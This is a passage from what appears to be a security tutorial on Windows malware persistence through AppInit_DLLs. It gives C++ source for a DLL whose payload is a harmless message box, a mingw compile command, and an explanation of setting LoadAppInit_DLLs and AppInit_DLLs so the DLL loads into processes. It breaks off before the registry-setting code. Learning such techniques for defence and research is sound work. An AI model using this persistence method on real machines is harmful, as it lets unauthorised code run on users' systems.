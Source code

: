 Microsoft to protect Windows users from malware has disabled by default the loading of DLLs's via AppInit (`LoadAppInit_DLLs`). However, setting the registry key `LoadAppInit_DLLs` to value `1` will enable this feature.

### practical example

First of all, create "evil" DLL. As usual I will take "meow-meow" messagebox pop-up logic:

```cpp
/*
evil.cpp
inject via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Let's go to compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](/assets/images/55/2022-05-16_01-21.png){:class="img-responsive"}    

Then simple logic: changing the registry key `AppInit_DLLs` to contain the path to the DLL, as a result, `evil.dll` will be loaded.

For this create another app `pers.cpp`:
